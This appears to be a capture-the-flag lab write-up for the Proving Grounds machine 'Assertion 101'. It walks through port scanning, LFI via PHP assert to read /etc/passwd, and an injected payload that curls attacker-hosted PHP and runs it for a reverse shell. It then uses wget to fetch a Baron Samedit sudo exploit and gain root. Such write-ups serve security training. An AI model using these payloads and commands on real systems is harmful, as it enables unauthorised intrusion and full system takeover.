 ```yaml
---
title: Assersion 101
categories: [Proving Grounds Play]
tags: [LFI, PrivEsc, RCE, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Assersion101/Untitled.png
  alt: Assertion 101 Machine 🖥️ 
---
```



## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ cat Nmap_results.txt
# Nmap 7.94 scan initiated Tue Jul 18 21:13:55 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.187.94
Warning: 192.168.187.94 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.187.94
Host is up (0.17s latency).
Not shown: 65466 closed tcp ports (reset), 67 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Assertion
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

---

## Web Enumeration ➡️

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%201.png)

Now while surfing I tried LFI on `page` parameter →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%202.png)

Now lets try some other type of payloads ⤵️

[LFI via PHP`s ‘assert’](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%203.png)

payload used like This →

```bash
http://192.168.152.94/index.php?page=%27%20and%20die(show_source(%27/etc/passwd%27))%20or%20%27
```
{: .nolineno}

In response I got this →

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%204.png)

Now lets use another payload for Remote Command Execution (RCE) → 

![Untitled](/Vulnhub-Files/img/Assersion101/Untitled%205.png)

Lets try reverse shell code →

```bash
http://192.168.152.94/index.php?page=' and die(system("curl http://192.168.45.152/shell.php|php")) or '
```
{: .nolineno}

In response to that I got the shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Assertion101]
└─$ nc -lvnp 4444       
listening on [any] 4444 ...

connect to [192.168.45.152] from (UNKNOWN) [192.168.152.94] 54592
Linux assertion 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:41:39 up 50 min,  0 users,  load average: 0.00, 0.00, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: cant access tty; job control turned off
$ $ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@assertion:/$ whoami
whoami
www-data
www-data@assertion:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@assertion:/$
```
{: .nolineno}

Now I checked the sudo version and then I exploited the vulnerability of **[CVE-2021-3156 (Sudo Baron Samedit)](https://github.com/worawit/CVE-2021-3156#cve-2021-3156-sudo-baron-samedit)**

```bash
www-data@assertion:/home$ sudo -V
sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
www-data@assertion:/home$ cd /tmp
cd /tmp
www-data@assertion:/tmp$ wget http://192.168.45.152/exploit_nss.py
wget http://192.168.45.152/exploit_nss.py
--2023-10-09 17:46:10--  http://192.168.45.152/exploit_nss.py
Connecting to 192.168.45.152:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit_nss.py'

exploit_nss.py        0%[                    ]       0  --.-KB/exploit_nss.py      100%[===================>]   7.99K  --.-KB/s    in 0.003s  

2023-10-09 17:46:11 (2.95 MB/s) - 'exploit_nss.py' saved [8179/8179]

www-data@assertion:/tmp$ 
www-data@assertion:/tmp$ chmod +x exploit_nss.py	
chmod +x exploit_nss.py 
www-data@assertion:/tmp$ ls -al
ls -al
total 16
drwxrwxrwt  2 root     root     4096 Oct  9 17:46 .
drwxr-xr-x 26 root     root     4096 Sep 14  2020 ..
-rwxrwxrwx  1 www-data www-data 8179 Jun 22 10:25 exploit_nss.py
prw-r--r--  1 www-data www-data    0 Oct  9 17:24 f
www-data@assertion:/tmp$ python3 exploit_nss.py
python3 exploit_nss.py
# /bin/bash -i
/bin/bash -i
root@assertion:/tmp# whoami
whoami
root
root@assertion:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@assertion:/tmp# cd /root
cd /root
root@assertion:/root# ls -al
ls -al
total 36
drwx------  5 root root 4096 Oct  9 16:54 .
drwxr-xr-x 26 root root 4096 Sep 14  2020 ..
lrwxrwxrwx  1 root root    9 Jan 16  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  3 root root 4096 Jan 16  2020 .cache
drwx------  3 root root 4096 Jan 16  2020 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jan 16  2020 .ssh
-rw-------  1 root root    0 Sep  8  2020 .viminfo
-rw-r--r--  1 root root   33 Oct  9 16:54 proof.txt
-rw-r--r--  1 root root   32 Sep  8  2020 root.txt
root@assertion:/root# cat root.txt
cat root.txt
Your flag is in another file...
root@assertion:/root# cat proof.txt
cat proof.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/root# cd /
root@assertion:/# find / -name local.txt 2>/dev/null
find / -name local.txt 2>/dev/null
/var/www/local.txt
root@assertion:/# cat /var/www/local.txt
cat /var/www/local.txt
FLAGFLAGFLAGFLAGFLAG
root@assertion:/# ifconfig
ifconfig
ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.152.94  netmask 255.255.255.0  broadcast 192.168.152.255
        inet6 fe80::250:56ff:feba:8eed  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:ba:8e:ed  txqueuelen 1000  (Ethernet)
        RX packets 1903  bytes 201740 (201.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2063  bytes 2686114 (2.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 786  bytes 61626 (61.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 786  bytes 61626 (61.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@assertion:/#
```
{: .nolineno}

I am root now I can access all the flags !!